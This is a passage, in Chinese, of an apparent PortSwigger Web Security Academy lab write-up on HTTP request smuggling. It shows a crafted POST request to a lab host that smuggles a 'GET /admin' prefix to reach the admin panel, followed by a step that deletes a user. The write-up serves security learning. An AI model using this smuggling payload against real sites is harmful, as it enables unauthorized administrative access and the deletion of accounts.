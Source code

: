 [![](assets/1705301772-127e1371199bf8f9ab00bc7d44b7559e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182648-6c872928-b2c7-1.png)  
随后在 burpsuite 中将走私前缀的路径更改为指向/admin，再次按顺序发送请求观察第二个请求是否已成功访问管理面板

```plain
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

GET /admin HTTP/1.1
Foo: x
```

[![](assets/1705301772-f70cc9dfc6af76b45a7208a0728467df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182709-7964e144-b2c7-1.png)  
[![](assets/1705301772-c9ef5635fd682acb4e9582e1fb26e77d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182719-7f3e15c2-b2c7-1.png)  
随后调用接口删除用户
